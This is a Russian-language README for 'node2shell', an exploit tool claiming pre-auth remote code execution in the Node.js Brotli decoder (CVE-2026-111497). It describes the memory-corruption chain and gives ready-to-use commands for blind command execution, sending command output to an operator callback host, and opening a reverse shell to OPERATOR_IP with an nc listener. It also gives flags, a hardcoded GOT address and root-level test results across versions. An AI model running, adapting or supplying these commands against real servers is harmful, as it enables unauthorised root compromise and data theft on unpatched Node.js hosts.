


<div align="center">

# 💥 node2shell

**Pre-auth RCE в Brotli-декодере Node.js · CVE-2026-111497**

[](https://nodejs.org/)
[](https://www.python.org/)
[](https://github.com/wwlamer/node2shell)
[](https://t.me/walterlamer)

[🐙 GitHub](https://github.com/wwlamer) · [💬 Telegram](https://t.me/walterlamer) · [📚 Документация](docs/DOCUMENTATION.md)

</div>

> 💡 **Коротко:** структурно невозможный block switch на быстром пути не считается ошибкой, и испорченное состояние даёт управляемый `buffer_length`. Из него собирается лик `BrotliDecoderState` через self-pointer, база libc и `system` резолвятся в рантайме: non-PIE: ELF → `PT_DYNAMIC` → `DT_DEBUG` → `link_map` → GNU hash; PIE: `context_lookup` из среза → libbrotlicommon → dynamic/GOT → libc → GNU hash. Без GOT-констант и смещений libc; пишется тройка `[system, NULL, opaque]` в `metadata_start_func`. Декодер вызывает `system(cmd)`; по умолчанию это blind-режим, режим `-C` забирает вывод на callback-сервер оператора.

[📦 Установка](#install) · [🚀 Старт](#start) · [🕹️ Режимы](#modes) · [🧩 Флаги](#flags) · [✅ Проверено](#tested) · [🖼️ Скриншоты](#shots) · [⚠️ Ограничения](#limits) · [📚 Документация](docs/DOCUMENTATION.md)

<a id="install"></a>
## 📦 Установка

```bash
git clone https://github.com/wwlamer/node2shell.git
cd node2shell
python3 node2shell.py --help
```

🐍 Сторонних пакетов нет, только стандартная библиотека Python 3.10+. Docker нужен только для лабораторного стенда в `lab/`.

<a id="start"></a>
## 🚀 Быстрый запуск

```bash
# blind по умолчанию: команда выполнится, вывод не собирается
./node2shell.py -u http://TARGET:3000/decode -c 'touch /tmp/pwned'

# сбор вывода на callback-сервер оператора; libc/system резолвятся в рантайме
./node2shell.py -u http://TARGET:3000/decode -C -L OPERATOR_IP -c 'id; uname -a'

# быстрый fallback для проверенной сборки 26.12.0 (без рантайм-резолвера)
./node2shell.py -u http://TARGET:3000/decode --got 0x7359140 -C -L OPERATOR_IP -c 'id'

# цель сама забирает URL через fetch()
./node2shell.py -u http://TARGET:3000/proxy -C -L OPERATOR_IP -m response

# только лик libc и состояния
./node2shell.py -u http://TARGET:3000/decode --leak

# обратная оболочка
./node2shell.py -u http://TARGET:3000/decode -r -L OPERATOR_IP -P 4444
nc -lvnp 4444

# https с самоподписанным сертификатом: -k отключает проверку
./node2shell.py -u https://TARGET:8443/decode -k -C -L OPERATOR_IP -c 'id'
```

🔐 Схема `https` включает TLS поверх того же канала: проверка сертификата по умолчанию включена, для самоподписанного нужен `-k`/`--insecure`. Адрес, который цель забирает через `fetch()` в векторе response, остаётся обычным `http`. Ограничения TLS описаны ниже.

⚙️ По умолчанию выполняется `id` в blind-режиме: команда выполняется, вывод не собирается. Вектор определяется по HTTP, адрес цели можно передать позиционным аргументом. Режим `-C`/`--callback` включает сбор вывода.

🧮 По умолчанию `libc` и `system` резолвятся в рантайме, констант GOT и смещений libc в этом пути нет: около 34 ГБ трафика на официальной `node:26.12.0-bookworm-slim` (1255 чтений по 1 байту; request: 460-472 с на 4 потоках или 222-233 с на 8, response: 352 с). `--got 0x7359140` оставлен быстрым fallback для проверенной сборки; для другой сборки нужен свой `--got` и `-l` с libc цели.

📡 `-L` это адрес машины оператора, доступный цели. На нём инструмент поднимает HTTP-сервер для потока (вектор response) и для вывода команды в режиме `-C`. Для reverse shell тот же адрес и `-P` получает TCP-listener.

🧠 Blind не отменяет лик состояния: цель должна отдать декодированный поток первого запроса, иначе адрес состояния взять неоткуда и цепочка не работает ни в одном режиме.

<a id="modes"></a>
## 🕹️ Режимы

| Режим | Что делает |
|---|---|
| 🎯 `auto` | определяет вектор по HTTP, значение по умолчанию |
| 📨 `request` | POST с `Content-Encoding: br`, цель декодирует тело |
| 🌐 `response` | цель сама забирает наш URL через `fetch()`, поток отдаёт встроенный сервер |
| 🔇 blind | режим по умолчанию: команда через `system()`, вывод не собирается |
| 📡 `-C, --callback` | вывод команды приходит POST-запросом на встроенный сервер оператора |
| 🔍 `--leak` | только лик libc и состояния, без записи тройки |
| 🐚 `-r, --reverse` | обратная оболочка на `-L` и `-P`, слепой путь |

В режиме `--callback` команда на цели отправляет свой stdout POST-запросом на встроенный сервер оператора (`node -e`), инструмент печатает полученный текст. Целевой эндпоинт чтения файлов не нужен. В blind вывод не собирается, успех проверяется по эффекту команды.

<a id="flags"></a>
## 🧩 Флаги

| Флаг | Значение |
|---|---|
| `-u, --url` | 🎯 адрес цели, он же позиционный аргумент |
| `-c, --cmd` | 🧾 команда для `system()`, по умолчанию `id` |
| `-m, --mode` | 🕹️ `auto`, `request`, `response` |
| `-L, --lhost` | 📡 адрес оператора, доступный цели |
| `-P, --lport` | 🔌 порт сервера оператора или reverse shell |
| `-C, --callback` | 📡 собирать вывод команды на встроенный сервер |
| `-r, --reverse` | 🐚 обратная оболочка на `-L` и `-P` |
| `--leak` | 🔍 только лик libc и состояния |
| `-l, --lib` | 📚 локальный `libc.so.6` цели для смещений `system` |
| `--runtime` | 🧮 резолвить базу libc и `system` в рантайме, режим по умолчанию |
| `--got` | 🎯 fallback: адрес `execvp@GOT` (для официальной 26.12.0 `0x7359140`) |
| `--resolve-workers` | ⚡ параллельных чтений резолвера, по умолчанию 4 |
| `-k, --insecure` | 🔐 не проверять TLS-сертификат цели (`https`) |
| `-s, --save` | 💾 сохранить дампы лика libc и среза состояния |
| `-t, --timeout` | ⏱️ общий таймаут, по умолчанию 90 секунд |
| `--plain` | 🎨 без цвета, `NO_COLOR` действует так же |
| `-j, --json` | 🤖 машинный вывод, баннер уходит в stderr |
| `-q, --quiet` | 🔇 только вердикт и вывод команды |
| `-v, --version` | 🏷️ версия |
| `-h, --help` | ❓ справка |

<a id="tested"></a>
## ✅ Проверено

- ✅ **node 26.12.0**, официальный `node:26.12.0-bookworm-slim`, x86_64:
  - рантайм-резолвер без констант (по умолчанию): N=4 полных прогона на свежих процессах, 4 потока, `uid=0(root)` по callback, 1255 чтений, 460-472 с на прогон, около 34 ГБ трафика; отдельных констант `execvp@GOT`, `.dynamic`, `DT_DEBUG` и смещений libc в пути нет;
  - вектор (a) на Express 5 с потоковым Brotli-декодером: `uid=0(root)`, вывод по HTTP в режиме `--callback`;
  - вектор (b) через `fetch()` и явный `zlib.createBrotliDecompress()`: packaged N=1, plain fetch N=3, `uid=0(root)`, вывод по HTTP в режиме `--callback`; авто-декодер undici ломает tail-copy;
  - вектор (b) с рантайм-резолвером без констант: `lab/fetch-zlib.js` (fetch + `zlib.createBrotliDecompress`, порт 19724), N=1, `uid=0(root)`, 1255 чтений, резолвер 337 с, полный прогон 352 с, 34 ГБ; отрицательный контроль на 26.12.1 (порт 19725), 4 байта и `-17`, исполнения нет;
  - blind: 1/1, файл на цели создан и проверен вне эксплойта;
  - reverse shell: 1/1, TCP-listener поймал шелл, `id` вернул `uid=0(root)`;
  - request vector на `--got`/старом драйвере: 50/50 на свежих процессах, 5/5 в одном процессе; runtime-путь отдельно N=4 выше.
  - https с самоподписанным сертификатом через edge-терминатор (`lab/tls-tunnel.js`, `https://…:19816/ -k`, 26.12.0): полный рантайм-прогон без констант 1/1, `uid=0(root)`, 1255 чтений, резолвер 222-227 с, 8 потоков, 0 транспортных ретраев; отрицательный контроль 26.12.1 (`https://…:19817/ -k`), 4 байта и `-17`, процесс жив.
  - https напрямую, TLS внутри приложения (`lab/https-sink.js`, `https://…:19812/ -k`, 26.12.0): после перекалибровки фазы под 16-КБ куски TLSWrap полный рантайм-прогон без констант 1/1, `uid=0(root)`, 1255 чтений, резолвер 239 с, 8 потоков, 0 падений цели; 128/128 чтений ELF-заголовка без падений. Отрицательный контроль 26.12.1 (`https://…:19813/ -k`), 4 байта и `-17`, процесс жив. Механизм и правка (256 distance-деревьев + `t[0]=0x04`) описаны в `evidence/runtime-both.md` §5.
  - `--got 0x7359140` в явном виде: лик libc и состояния проходит, значения совпадают со значением по умолчанию.
- 🖥️ **Node 25.9.0**, `node:25-bookworm-slim`, x86_64: та же runtime-цепочка без констант, `uid=0(root)`, 1256 чтений, 504 с. Патченного 25.x нет, контроль через 26.12.1 (`-17`).
- 🖥️ **Arch host `node v26.10.0`** (`/usr/bin/node`, ELF **ET_DYN PIE**, системный brotli 1.2.0):
  - PIE-резолвер без адресных констант (`context_lookup` → скан вниз до ELF-заголовка libbrotlicommon (ET_DYN) → dynamic/GOT → libc → GNU hash; фиксированного смещения таблицы нет, скан 2 шага/9 чтений): `ELF 0x7f9cc3758000 (brotli-pie)`, `база libc 0x7f9cc1c00000`, `system 0x7f9cc1c54740 (sym 1066)`, 1192 чтения, 690 с на 4 потоках; обе базы совпали с maps;
  - полный прогон на matching vulnerable build brotli 1.2.0 (`-O0`, LD_PRELOAD): `system("id")` выполнен, callback `uid=1000(walter)`: цель запущена не root, `uid=0(root)` здесь не заявляется;
  - отрицательный контроль: тот же PIE node с patched brotli 1.2.1 (`-O0`, LD_PRELOAD): лик состояния 0 байт, `-17`/отказ, исполнения нет, процесс жив;
  - стоковый системный `libbrotlidec.so.1.2.0` (GCC `-O2`) tail-copy примитив не взводит (qword-store `buffer_length`, BL=20 вместо 4628): PIE-резолвер на нём не стартует; нужен vulnerable build с `incq`-кодогенерацией. PIE-путь рассчитан на shared `libbrotlicommon` (таблица в её `.rodata`); PIE-сборка со статическим brotli внутри executable не поддерживается: база main exe не выводится. Логи: `evidence/pie.md`.
- ❌ **node 26.12.1**, тот же вход: `ERR__ERROR_FORMAT_BLOCK_SWITCH`, `errno -17`, процесс жив, выполнения нет. Рантайм-путь (порядок PIE-safe: сначала срез состояния): 0-байтовый view и `-17` в логе цели, исполнения нет (прежний порядок давал 4 байта на `0x400000`); быстрый `--got`: 323012 байт, затем `-17`, указателя нет. Sink replay N=10: 0 декодированных байт, 0 callback. Packaged request/response 5/5: 323012 байт, затем `-17`, без указателя. HTTPS-вариант (`lab/https-stream.js`, порт 19811, `-k`) даёт то же: 323012 байт, `-17`, сервис отвечает после прогона. Матрица blind/`-C`/`--leak`/`-r` даёт тот же `-17`; ошибка возникает на MB1 до выбора команды.
- 🕰️ 22.23.3 / 24.22.0: линейный кодоген DEAD, зато измерены heap-leak через ringbuffer wrap и rb-относительный write; RCE нет, полная цепочка не переносится. Патчи 22.23.4/24.22.1: `-17`, живы.
- 🖥️ arm64, qemu-user: полная цепочка на 26.12.0, `uid=0(root)`, `aarch64`, 1278 чтений, 1040 с, база libc совпала с maps; 26.12.1: `-17`, жив. Нативного железа не было; на qemu нужны 4 worker по умолчанию.

<a id="shots"></a>
## 🖼️ Скриншоты

Реальные прогоны на локальном стенде, вывод снят с терминала.

💥 Уязвимая версия:



✅ Патч:



<a id="limits"></a>
## ⚠️ Ограничения

- 🔒 Декодер нельзя уничтожать после подмены `ringbuffer`: инструмент держит запрос открытым, а цель должна сохранять декодер. После возврата `system()` процесс может упасть на teardown, но команда к этому моменту уже выполнена.
- 🖥️ Команда выполняется через `system()` (`sh -c`) на linux x86_64, длина до **226** байт с учётом хвостового выравнивания. С 227 байт включается длинная insert-ветка (structure 14, insert code 18), которая роняет цель SIGSEGV без вызова `system()` (проверено на свежем `node:26.12.0`: `id`-callback общей длиной ~182, `uid=0(root)`; команда длиной 259, цель `exit 139`, callback нет). Такие команды инструмент отклоняет до отправки.
- 🎯 Вектор (a) требует, чтобы приложение декодировало `Content-Encoding: br` и отдавало выход декодера клиенту, иначе лик состояния не прочитать. Это нужно и в blind: blind убирает только сбор вывода команды, но не лик состояния. Буферизующий body-parser так не умеет, нужен потоковый декодер.
- 🌐 Вектор (b) требует, чтобы приложение вызывало `fetch()` по URL атакующего и отдавало тело через явный `zlib.createBrotliDecompress()`. Авто-декодер undici (`BROTLI_OPERATION_FLUSH`) ломает tail-copy. Процесс цели может упасть на teardown после возврата `system()`; команда к этому моменту уже выполнена.
- 📨 Runtime-резолвер работает в обоих векторах. В response-векторе он поднимает `/feed` с фазой, цель забирает URL и отдаёт декодированные байты; каждое чтение, отдельный токен `/feed?token=…`, поэтому параллельные чтения не перемешиваются. Проверено на `lab/fetch-zlib.js` (fetch + явный `zlib.createBrotliDecompress`): `uid=0(root)` без констант.
- 🌐 Точный блокер для чужих fetch-приложений: undici создаёт декодер с `flush: BROTLI_OPERATION_FLUSH`. На этой фазе tail-copy примитив требует default-flush состояния; при автоматическом декодировании `Content-Encoding: br` в undici процесс цели падает в `ProcessCommands` примерно на 25-50% чтений. Для response-вектора нужен консьюмер, который сам вызывает `zlib.createBrotliDecompress()` на теле ответа (например, `lab/fetch-zlib.js`), либо request-вектор.
- 🧮 По умолчанию база libc и `system` резолвятся в рантайме. Non-PIE (ET_EXEC): ELF по `0x400000`, `PT_DYNAMIC`, скан `d_tag` (включая `DT_DEBUG`), `link_map`, `GNU hash(libc, "system")`, 1255 чтений и около 34 ГБ трафика, 222-239 с на 8 потоках (HTTP, HTTPS через терминатор и прямой TLS), 460-472 с на 4. PIE (ET_DYN): из среза состояния читается `context_lookup` (бит 672), затем скан вниз по страницам до ELF-заголовка libbrotlicommon (`ET_DYN`; фиксированного смещения таблицы нет), её `PT_DYNAMIC` → внешний GOT-указатель (`__cxa_finalize`, eager `GLOB_DAT`) → скан страниц вниз до базы libc → `GNU hash(libc, "system")`. База главного исполняемого файла не нужна. На host `node v26.10.0` (PIE) с matching vulnerable brotli 1.2.0: 1190 чтений, резолвер 602 с на 4 потоках, полный прогон `uid=1000(walter)` (цель не root); `evidence/pie.md`. После сериализации TLS 4 и 8 потоков стабильны: 400/400 чтений и полные прогоны без SIGSEGV в libssl.
- 📚 `--got` это быстрый fallback: `--got 0x7359140` для официальной `node:26.12.0-bookworm-slim` linux x86_64 плюс смещения из `-l`/проверенного образа. Для другой сборки нужен свой `--got`.
- 🧬 PIE-путь требует vulnerable brotli с `incq`-tail-copy (так собраны официальные node-сборки): системный `libbrotlidec.so.1.2.0`, собранный GCC `-O2`, делает qword-store `buffer_length` (BL=20 вместо 4628) и примитив не взводит. На стоковом Arch-хосте лик состояния = 0 байт, PIE-резолвер не стартует. Симптом и калибровка: `evidence/pie.md` §2.
- 🧪 Расширение до 64 байт за прогон (шаблон 64 литералов и forge) частично работает, но упирается во внутренний буфер декодера с указателями конкретного процесса; в финальном пути не используется.
- 🔐 `https` оборачивает тот же сокет в TLS с проверкой сертификата. Для самоподписанного нужен `-k`/`--insecure`. Полный рантайм-прогон без констант поверх TLS проверен через edge-терминатор (`lab/tls-tunnel.js`, `https://…:19816/ -k`, 26.12.0): 1/1, `uid=0(root)`, 1255 чтений, 222-227 с; отрицательный контроль 26.12.1 (`https://…:19817/ -k`): 4 байта, `-17`, процесс жив. Python SIGSEGV на длинных TLS-сериях был гонкой `SSL_read`/`SSL_write` на одном `SSLSocket`; каналы теперь сериализуют операции, и это исправлено (400/400 на 8 потоках, полные прогоны без падений). Прямой TLS внутри приложения (`lab/https-sink.js`, `https://…:19812/ -k`) после перекалибровки фазы под 16-КБ куски TLSWrap тоже даёт полный рантайм-прогон без констант 1/1: `uid=0(root)`, 1255 чтений, резолвер 239 с, 8 потоков, 0 падений цели (128/128 чтений ELF-заголовка без падений); отрицательный контроль 26.12.1 (`https://…:19813/ -k`), 4 байта и `-17`, процесс жив. Фикс: 256 одинаковых distance-деревьев в фазе (любой `dist_htree_index` 0..255 остаётся в массиве) и `t[0]=0x04`; механизм в `evidence/runtime-both.md` §5.
- 📡 Вывод команды требует сетевого доступа от цели к серверу оператора. В blind (по умолчанию) и reverse shell такого требования нет, но и подтверждения в канале тоже.
- 🧪 Проверены официальные 26.12.0/26.12.1 x86_64, 25.9.0, arm64 под qemu-user и PIE host с vulnerable brotli. На произвольной сборке адреса, кодоген и TLS-разбиение нужно перемерить.

📚 Полное описание механизма и воспроизведение: [docs/DOCUMENTATION.md](docs/DOCUMENTATION.md).

## 💬 Канал

[Walter White](https://t.me/walterlamer) · `@walterlamer` · [GitHub](https://github.com/wwlamer/node2shell)
